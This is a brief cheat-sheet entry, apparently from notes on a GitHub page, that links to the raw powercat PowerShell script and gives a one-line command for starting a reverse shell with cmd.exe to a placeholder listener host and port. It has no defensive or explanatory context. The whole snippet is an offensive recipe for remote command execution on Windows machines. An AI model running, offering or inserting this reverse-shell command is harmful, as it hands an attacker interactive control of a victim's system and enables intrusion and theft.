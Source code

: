 ### Source
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1  

### Start reverse shell
```
powercat -c <lhost> -p <lport> -e cmd.exe
```

